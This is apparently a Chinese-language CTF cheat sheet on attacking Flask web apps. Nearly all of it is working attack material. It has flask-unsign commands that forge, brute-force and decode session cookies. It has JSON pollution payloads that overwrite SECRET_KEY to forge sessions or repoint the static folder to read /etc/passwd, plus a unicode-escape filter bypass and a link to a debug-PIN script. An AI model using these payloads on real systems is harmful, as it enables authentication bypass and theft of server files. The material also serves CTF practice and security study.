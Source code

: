 - uncicode 绕过 `\u0069`
- [原型链](#原型链污染)覆盖 SECRET_KEY , session 伪造
- 原型链覆盖 `_static_folder` , 访问 /static/etc/passwd

## flask session

需要得到 secret,

```sh
pip install flask-unsign
flask-unsign --sign --cookie "{'balance': 666666}" --secret "XMM<XMK"

flask-unsign --unsign --cookie "eyJ1c2VyIjoiaWRkbm0ifQ.YyVDmQ.nXit643ch5T34u092IJSngKbCwI" --wordlist dict.txt
flask-unsign --decode --cookie "eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8"
```

## 原型链污染

1. 覆盖 SECRET_KEY, 然后伪造 session

```json
{
  "__init\u005f_": {
    "__globals\u005f_": {
      "app": {
        "config": {
          "SECRET_KEY": "aaa"
        }
      }
    }
  },
  "username": 1,
  "password": 1
}
```

2. 覆盖 `_static_folder` 静态文件路径, 然后读 http://x.x/static/etc/passwd

```json
{
  "username": "test",
  "password": "test",
  "__init\u005f_": {
    "__globals__": {
      "app": {
        "_static_folder": "/"
      }
    }
  }
}
```

## flask 原型链污染获取 PIN 码

[Link](../../../../../blog/text/docs/ctf/scripts/web/web_flask_pin_%E5%8E%9F%E5%9E%8B%E9%93%BE%E6%B1%A1%E6%9F%93.zip)
